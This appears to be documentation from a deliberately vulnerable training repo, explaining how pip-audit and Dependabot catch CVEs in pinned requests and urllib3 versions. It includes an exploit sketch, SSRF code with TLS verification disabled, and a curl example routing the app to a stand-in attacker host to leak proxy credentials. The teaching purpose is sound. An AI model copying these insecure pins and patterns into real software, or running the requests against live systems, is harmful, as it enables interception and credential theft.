

# Dependency Vulnerability Watchdog — Phase 4

Software Composition Analysis (SCA) with **pip-audit** in CI and **Dependabot** for automated bump PRs. Complements Phase 2 SAST ([SECURITY.md](SECURITY.md)) and Phase 3 secrets scanning ([SECRETS.md](SECRETS.md)).

**Pipeline status on `main`:** SCA workflow is expected to **FAIL** — dependencies are deliberately pinned to versions with known CVEs.

**Do not deploy this application publicly.**

---

## Why SCA is not SAST or secrets scanning

| Layer | Scans | This repo |
|-------|-------|-----------|
| **SAST** | Your code patterns (`eval`, SQLi, SSRF) | Bandit + Semgrep |
| **Secrets** | Credentials in git history | Gitleaks |
| **SCA** | Known CVEs in third-party packages | pip-audit + Dependabot |

SCA answers: *"Are we shipping dependencies with published vulnerabilities?"*  
SAST answers: *"Does our code use dangerous APIs?"*  
Gitleaks answers: *"Did we commit secrets to git?"*

All three are complementary. Fixing a CVE in `requests` does not fix V08 SSRF in application code — and vice versa.

---

## Pipeline overview

Workflow: [`.github/workflows/sca.yml`](.github/workflows/sca.yml)  
Dependabot: [`.github/dependabot.yml`](.github/dependabot.yml)



| Layer | Tool | Gate | Expected on `main` |
|-------|------|------|-------------------|
| CI | pip-audit | Fail on any OSV advisory | **Fail** |
| Automation | Dependabot (`uv` + `github-actions`) | Opens weekly bump PRs | Remediation demo |

Pinned versions in [`pyproject.toml`](pyproject.toml):

```toml
dependencies = [
    "flask>=3.1.3",
    "requests==2.31.0",   # multiple CVEs including CVE-2024-35195
]

[tool.uv]
override-dependencies = [
    "urllib3==1.26.17",   # CVE-2024-37891
]
```

A local `uv run pip-audit --desc` on these pins reports **11 advisories** across `requests` and `urllib3` (exit code 1). CI fails on any finding.

---

## Local commands

```bash
uv sync --dev

# Same gate as CI — exits non-zero when CVEs are found
uv run pip-audit --desc

# JSON report (uploaded as CI artifact on failure)
uv run pip-audit --format json -o pip-audit-report.json
```

---

## Featured CVE — CVE-2024-35195 (requests &lt; 2.32.0)

**Advisory:** [GHSA-9wx4-h78v-56rw](https://github.com/advisories/GHSA-9wx4-h78v-56rw)  
**Affected:** `requests` versions before 2.32.0 (this repo pins `2.31.0`)  
**Fixed in:** `requests>=2.32.0`  
**Reported by pip-audit:** Yes (primary `requests` finding on pinned version)

### What it is

When using a `requests.Session`, if the first request to an origin is made with `verify=False`, TLS certificate verification can remain **disabled for all subsequent requests** to that origin — even if a later call passes `verify=True`. The pooled connection retains the initial TLS setting.

### Why it matters in this repo

[`GET /products/preview`](src/webshop/routes/products.py) (V08) calls:

```python
response = requests.get(url, timeout=5, verify=False)
```

Each preview request disables TLS verification for user-controlled URLs. With `requests` 2.31.0, if the app later reused a session to the same host with `verify=True`, verification could still be off — but V08 already passes `verify=False` explicitly, compounding MITM risk on every SSRF fetch.

### Exploit sketch (demo only — do not run against real targets)

1. Attacker positions a MITM on the path between the app server and a URL the victim previews (easier because V08 sets `verify=False`).
2. Attacker intercepts or modifies the response from the previewed URL (inject malicious image metadata, steal tokens in response bodies, etc.).
3. With CVE-2024-35195, any session-based follow-up requests to the same origin inherit disabled verification even if application code tries to re-enable it.

```bash
curl "http://127.0.0.1:5000/products/preview?url=https://example.com/image.png"
```

**Layered risk:** V08 is SSRF + explicit `verify=False`. A vulnerable `requests` version adds **sticky disabled TLS** on connection reuse — SCA catches the dependency layer; SAST catches `verify=False` and SSRF patterns separately.

### Fix

Bump `requests` to `>=2.32.0` (what Dependabot will propose). This does **not** remediate V08 SSRF — you still need URL allowlisting, `verify=True`, and network egress controls.

---

## Also affects this pin — CVE-2023-32681 (requests &lt; 2.32.0)

**Advisory:** [GHSA-j8r4-34m9-fnr3](https://github.com/advisories/GHSA-j8r4-34m9-fnr3)

When `requests` follows HTTP redirects, it can forward the `Proxy-Authorization` header to the redirect target host. Combined with V08's user-controlled URL:

```bash
curl "http://127.0.0.1:5000/products/preview?url=http://attacker.example/redirect"
# attacker returns 302 → evil.example; proxy creds may leak on redirect chain
```

Same fix: `requests>=2.32.0`.

---

## Secondary finding — CVE-2024-37891 (urllib3)

**Advisory:** [GHSA-34jh-p97f-mpxf](https://github.com/advisories/GHSA-34jh-p97f-mpxf)  
**Affected:** `urllib3` before 1.26.19 / 2.2.2 (this repo overrides to `1.26.17`)  
**Fixed in:** `urllib3>=1.26.19` or `>=2.2.2`

Chunked transfer-encoding handling could allow request-smuggling class issues when `urllib3` is used as part of an HTTP client stack. `requests` depends on `urllib3` transitively — SCA surfaces **indirect** dependency risk even when you only pin the direct dep.

Interview point: you need lockfile-level scanning (`uv.lock`), not just `pyproject.toml` direct deps.

---

## Remediation playbook

### 1. Dependabot auto-PR (preferred demo path)

After merging Phase 4 to GitHub, Dependabot will open PRs such as:

> Bump requests from 2.31.0 to 2.34.2

Review the linked advisory → merge → SCA workflow goes green.

### 2. Manual bump

```bash
# Remove intentional pin, upgrade, re-lock
uv lock --upgrade-package requests --upgrade-package urllib3
uv run pip-audit --desc   # should pass
uv run pytest
```

### 3. Demo branch

Create `demo/sca-remediated` with bumps merged:

- SCA workflow: **pass**
- SAST workflow: still **fail** (V01–V14 unchanged)
- Secrets workflow: still **pass**

Shows that security gates are independent per layer.

---

## Blind spots / interview talking points

| Topic | Limitation |
|-------|------------|
| **Known CVEs only** | pip-audit queries OSV — zero-days and undisclosed issues are invisible |
| **Reachability** | A CVE in a dependency may not be exploitable if the vulnerable code path is never called |
| **Not license compliance** | Use `licensecheck` or similar for GPL/AGPL policy |
| **Not malware detection** | Consider `uv audit` or `UV_MALWARE_CHECK=1` on `uv sync` for supply-chain hardening |
| **Intentional pins** | Never acceptable in production — this repo pins vulns for teaching only |

---

## CI artifacts

On failure, open the **SCA** workflow run in GitHub Actions → **Artifacts** → `pip-audit-report` (JSON with advisory IDs and affected versions).

---

## Related docs

- [SECURITY.md](SECURITY.md) — SAST findings (V01–V14), blind spots
- [SECRETS.md](SECRETS.md) — Gitleaks pre-commit + CI
- [NOTES.md](NOTES.md) — pattern vs taint (V13/V14)
